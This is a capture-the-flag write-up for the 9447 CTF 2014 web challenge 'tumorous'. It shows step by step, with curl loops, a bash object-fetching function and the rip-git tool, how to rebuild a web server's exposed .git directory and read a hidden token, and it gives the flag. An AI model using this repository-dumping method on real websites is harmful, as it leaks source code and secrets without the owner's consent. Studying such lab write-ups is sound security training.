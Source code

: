 # 9447 CTF 2014: tumorous

**Category:** Web
**Points:** 100
**Description:**

> They are following me. They are after my token. I have to hide it somewhere. I’m not very good at hiding.
>
> [tumorous.9447.plumbing](http://tumorous.9447.plumbing/)

## Write-up

**Note:** This challenge is a harder version of [the _bashful_ challenge](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful#readme).

The page at <http://tumorous.9447.plumbing/> contains:

> 13/2/2004: I learned how to html, yay!
> 12/4/2004: I learned how to use git, yay!
> 13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
> 08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
> 10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
> 10/9/2004: I can't forget my token. What do I do?
> 11/9/2004: I panicked and deleted the token. It is the work of evil doers.
> 12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.

The second line hints at Git, so let’s try visiting <http://tumorous.9447.plumbing/.git/>. It returns a 403 Forbidden status code, indicating that the `.git` directory exists on the server, although directory listings are disabled.

An easy way to figure out which files are usually present in a `.git` folder is to create a new Git repository.

```bash
$ cd $(mktemp -d /tmp/tumorous-XXXX)

$ git init

$ cd .git

$ ls -Rls
total 24
8 -rw-r--r--   1 mathias  wheel   23 Nov 30 15:24 HEAD
8 -rwxr--r--   1 mathias  wheel  137 Nov 30 15:24 config
8 -rw-r--r--   1 mathias  wheel   73 Nov 30 15:24 description
0 drwxr-xr-x  11 mathias  wheel  374 Nov 30 15:24 hooks
0 drwxr-xr-x   3 mathias  wheel  102 Nov 30 15:24 info
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 objects
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 refs

./hooks:
total 80
 8 -rwxr-xr-x  1 mathias  wheel   452 Nov 30 15:24 applypatch-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   896 Nov 30 15:24 commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   189 Nov 30 15:24 post-update.sample
 8 -rwxr-xr-x  1 mathias  wheel   398 Nov 30 15:24 pre-applypatch.sample
 8 -rwxr-xr-x  1 mathias  wheel  1642 Nov 30 15:24 pre-commit.sample
 8 -rwxr-xr-x  1 mathias  wheel  1352 Nov 30 15:24 pre-push.sample
16 -rwxr-xr-x  1 mathias  wheel  4951 Nov 30 15:24 pre-rebase.sample
 8 -rwxr-xr-x  1 mathias  wheel  1239 Nov 30 15:24 prepare-commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel  3611 Nov 30 15:24 update.sample

./info:
total 8
8 -rw-r--r--  1 mathias  wheel  240 Nov 30 15:24 exclude

./objects:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 info
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 pack

./objects/info:

./objects/pack:

./refs:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 heads
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 tags

./refs/heads:

./refs/tags:

```

Now we have a list of files and folders we can look for on the server: `http://tumorous.9447.plumbing/.git/HEAD`, `http://tumorous.9447.plumbing/.git/config`, etc. Let’s recreate the expected directory structure locally, and download these files:

```bash
mkdir -p /tmp/restored-git-repo/.git;
cd /tmp/restored-git-repo/.git;
mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}};
for file in HEAD config description info/exclude refs/heads/master; do
  curl "http://tumorous.9447.plumbing/.git/${file}" > "${file}";
done;
cd ..;
```

Whenever we run a Git command in the repository, we get an error:

```bash
$ git log
fatal: bad object HEAD
```

Let’s see what `HEAD` refers to:

```bash
$ cat .git/HEAD
ref: refs/heads/master

$ cat .git/refs/heads/master
3dbda5576912236328494b11f9361dca66c0218a
```

Due to [the way Git stores objects](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects), the object `3dbda5576912236328494b11f9361dca66c0218a` is expected to be at `.git/objects/3d/bda5576912236328494b11f9361dca66c0218a`. Let’s write a function to download such objects based on their hash:

```bash
function fetchobject() {
  hash="${1}";
  dir="${hash:0:2}";
  file="${hash:2:38}";
  mkdir -p ".git/objects/${dir}";
  path=".git/objects/${dir}/${file}";
  curl -s "http://tumorous.9447.plumbing/${path}" > "${path}";
}
```

Now we can easily download the first missing piece, i.e. object `3dbda5576912236328494b11f9361dca66c0218a`:

```bash
$ fetchobject 3dbda5576912236328494b11f9361dca66c0218a
```

Now, let’s try running `git log` again:

```bash
$ git log
error: Could not read 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
fatal: Failed to traverse parents of commit 3dbda5576912236328494b11f9361dca66c0218a
```

Another missing object! Let’s download it and try again:

```bash
$ fetchobject 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a

$ git log
commit 3dbda5576912236328494b11f9361dca66c0218a
Author: root <root@ip-172-31-5-48.ap-southeast-2.compute.internal>
Date:   Sat Nov 29 03:21:33 2014 +0000

    My token now exists!

commit 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
Author: John Doe <fsck@you.me>
Date:   Tue Oct 7 08:32:28 2014 +0000

    I'm new to this repo stuff
```

Yay! We can now view the commit log. Effectively this is now a _bare_ Git repository: it contains the repository data but not the actual files. Let’s restore those as well:

```bash
$ git config --local --bool core.bare false

$ git checkout -f
error: unable to read sha1 file of token (0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0)

$ fetchobject 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0

$ git checkout -f
error: unable to read sha1 file of index.html (3bba60ef48578d0619aff067c7f6596c1426ce96)

$ fetchobject 3bba60ef48578d0619aff067c7f6596c1426ce96

$ git checkout -f

$ ls
index.html token

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

The flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Alternate solution

This challenge is trivial to solve using [rip-git](https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl):

```bash
$ perl ./rip-git.pl -v -u http://tumorous.9447.plumbing/.git/

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

## Other write-ups and resources

* [Write-up by Hypnosec](https://github.com/hypnosec/writeups/blob/master/2014/9447-ctf/web/tumorous.md)
* <http://wiremask.eu/9447-ctf-2014-web-100-tumorous/>
